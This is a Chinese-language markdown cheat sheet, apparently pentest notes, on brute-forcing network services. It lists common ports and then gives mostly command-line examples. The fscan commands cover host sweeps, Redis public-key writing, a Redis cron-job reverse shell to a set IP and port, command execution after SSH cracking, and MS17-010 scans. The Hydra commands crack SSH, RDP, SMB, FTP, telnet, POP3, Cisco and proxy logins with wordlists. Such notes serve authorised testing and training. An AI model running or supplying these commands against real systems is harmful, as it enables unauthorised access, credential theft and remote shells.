

# :fu:爆破

### 常见端口


|   端口    |                         说明                          |
| :-------: | :---------------------------------------------------: |
|    20     |           （数据传输）+ 21（认证） ftp服务            |
|    22     |               ssh服务（远程登录，管理）               |
|    23     |                telnet服务（远程管理）                 |
|    25     |      smtp服务（邮件传输协议）  110 po3（收邮件）      |
|    53     |                     dns 服务 查询                     |
|    139    |             （netbios 主机名局域网协议）              |
|    135    | （rpc通信协议）/445（smb认证传输）  smb  文件共享服务 |
|    445    |                    文件共享、域控                     |
|   1080    |                       socks代理                       |
|   1194    |                        openvpn                        |
|   1433    |                  MSsql数据库管理端口                  |
|   1521    |                 oracle数据库管理端口                  |
|   1701    |                       l2tp端口                        |
|   1723    |            PPTP VPN微软windows server vpn             |
|   3306    |                  mysql数据库管理端口                  |
|   6379    |                    redis数据库端口                    |
|   27017   |                   mongodb数据库端口                   |
| 5900-5910 |                      vnv远控端口                      |
|   7001    |                   weblogic默认管理                    |
|   8080    |              tomcat/jboss Java的web容器               |
|           |                                                       |




### 端口爆破

```sh
fscan -h 192.168.1.1-255  #扫存活主机
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
fscan.exe -hf ip.txt  (以文件导入)  
```

## hydra

## 暴力破解工具 Hydra （九头蛇）

**命令基本格式：**

hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-SuvV46] [service://server[：PORT][/OPT]]

**参数详解：**

-R 根据上一次进度继续破解
-S 使用SSL协议连接
**-s 指定端口**
**-l 指定用户名**
**-L 指定用户名字典(文件)**
**-p 指定密码破解**
**-P 指定密码字典(文件)**
-e 空密码探测和指定用户密码探测(ns)
-C 用户名可以用:分割(username:password)可以代替-l username -p password
**-o 输出文件**
-t 指定多线程数量，默认为16个线程
**-vV 显示详细过程**
**server 目标IP**
**service 指定服务名(telnet ftp pop3 mssql mysql ssh ssh2......)**

-e nsr n为bull,空密码试探，s 用户名密码一直 r是倒转

root倒转toor


我们常常用于的服务ssh,ftp,pop3,smb,rdp

下面举几个命令的使用例子：爆破ssh
一般习惯用nmap扫一下主机，比如发现开放了22端口（一般就是ssh 了 nmap -A 看看是不是真的运行了ssh服务 ）


然后

hydra -l root -P /root/3389.txt ssh://192.168.2.134


使用ssh连接一下。


发现已近连接成功了

我们再说破解其他的模块：

使用hydra破解ssh的密码

hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh


**破解teamspeak：**

\# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak


**破解cisco：**

\# hydra -P pass.txt IP cisco

\# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable


**破解smb：**

\# hydra -l administrator -P pass.txt IP smb


**破解pop3：**

\# hydra -l muts -P pass.txt my.pop3.mail pop3


**破解rdp：**

\# hydra IP rdp -l administrator -P pass.txt -V


**破解http-proxy：**

\# hydra -l admin -P pass.txt http-proxy://10.36.16.18


**破解telnet**

\# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V


**破解ftp：**

\# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

\# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV


```bash
 hydra  -l admin -P top100_cn.txt rdp://172.16.12.2
```

